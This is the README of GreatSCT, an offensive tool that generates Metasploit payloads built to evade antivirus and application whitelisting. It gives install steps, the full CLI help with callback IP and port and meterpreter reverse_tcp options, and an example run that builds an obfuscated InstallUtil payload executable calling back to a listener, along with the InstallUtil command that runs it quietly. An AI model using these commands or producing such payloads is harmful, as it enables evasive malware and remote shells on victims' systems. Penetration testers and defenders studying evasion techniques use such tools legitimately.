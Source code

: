 # GreatSCT

GreatSCT is a tool designed to generate metasploit payloads that bypass common anti-virus solutions and application whitelisting solutions.

GreatSCT is current under support by @ConsciousHacker

## Software Requirements:

### Linux

1.  Debian or Kali - run the setup script - sudo ./setup.sh -c

## Setup (tl;dr)

> NOTE: Installation must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Run `./setup.sh -c` on Linux.

Install by cloning from git, not via apt!

### Quick Install

```bash
apt-get -y install git
git clone https://github.com/ConsciousHacker/GreatSCT.git
cd GreatSCT/
cd setup
sudo ./setup.sh -c
```

### Regenerating Config

> NOTE: This must be done with superuser privileges. If you are not using Kali Linux, prepend each command with `sudo` or change to the root user before beginning.

Most of the time the config file at `/etc/greatsct/settings.py` will not need to be rebuilt but in some cases you might be prompted to do so. The file is generated by `config/update.py`.

It is important that you are in the config/ directory before executing update.py. If you are not, settings.py will be incorrect and when you launch GreatSCT you will see the following.

```bash
    Main Menu

            0 payloads loaded
```

Don't panic. Enter the config/ dir and re-run update.py.

### Example Usage

GreatSCT's Main Menu:

```===============================================================================
                             GreatSCT | [Version]: 1.0
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

Main Menu

	1 tools loaded

Available Commands:

	exit			Exit GreatSCT
	info			Information on a specific tool
	list			List available tools
	update			Update GreatSCT
	use			Use a specific tool

Main menu choice: 


```

**Help**
```# ./GreatSCT.py -h
usage: GreatSCT.py [--update] [--version] [--list-tools] [-t Bypass] [--ip IP]
                   [--port Port] [--list-payloads]
                   [-c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]]
                   [-o OUTPUT NAME] [-p [PAYLOAD]] [--clean]
                   [--msfoptions [OPTION=value [OPTION=value ...]]]
                   [--msfvenom [windows/meterpreter/reverse_tcp]]

GreatSCT is a framework to generate application whitelisting bypasses.

GreatSCT Options:
  --update              Update the GreatSCT framework.
  --version             Displays version and quits.
  --list-tools          List GreatSCT's tools
  -t Bypass, --tool Bypass
                        Specify GreatSCT tool to use (Bypass)

Callback Settings:
  --ip IP, --domain IP  IP Address to connect back to
  --port Port           Port number to connect to.

[*] Payload Settings:
  --list-payloads       Lists all available payloads for that tool

Great Scott Options:
  -c [OPTION1=value OPTION2=value [OPTION1=value OPTION2=value ...]]
                        Custom payload module options.
  -o OUTPUT NAME        Output file base name for source and compiled
                        binaries.
  -p [PAYLOAD]          Payload to generate. Lists payloads if none specified.
  --clean               Clean out payload folders.
  --msfoptions [OPTION=value [OPTION=value ...]]
                        Options for the specified metasploit payload.
  --msfvenom [windows/meterpreter/reverse_tcp]
                        Metasploit shellcode to generate.
```
**GreatSCT Bypass CLI**
```
# ./GreatSCT.py --ip 192.168.157.136 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: installutil_powershell
 [*] Payload Module: installutil/powershell/script
 [*] Executable written to: /usr/share/greatsct-output/compiled/payload4.exe
 [*] Source code written to: /usr/share/greatsct-output/source/payload4.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload4.exe
#
# file /usr/share/greatsct-output/compiled/payload4.exe
/usr/share/greatsct-output/compiled/payload4.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
#
```

### Credits
https://github.com/veil-Framework/

### Licensing
This project is licensed under the GNU General Public License v3 license.
